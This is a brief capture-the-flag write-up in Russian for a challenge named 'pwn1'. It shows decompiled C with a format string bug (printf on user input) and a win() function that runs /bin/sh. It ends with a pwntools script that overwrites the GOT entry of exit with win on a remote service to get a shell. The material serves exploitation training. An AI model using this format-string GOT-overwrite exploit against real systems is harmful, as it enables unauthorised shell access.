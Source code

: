 # pwn1

При дизассемблировании в функции main видим уязвимость Format String Vulnerability
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s[1032]; // [rsp+0h] [rbp-410h] BYREF
  unsigned __int64 v4; // [rsp+408h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  fgets(s, 1024, _bss_start);
  printf(s);
  exit(0);
}
```

Также видим функцию win, которая вызывает шелл
```c
int win()
{
  return system("/bin/sh");
}
```

Пример программы для вызова функции win и получения шелла
```python
from pwn import *
context.clear(arch = 'amd64')

context.binary = ELF("./main")

s = remote("192.168.12.13", 1923)
s.sendline(fmtstr_payload(6, {context.binary.got['exit']: context.binary.sym['win']}))
s.interactive()
```
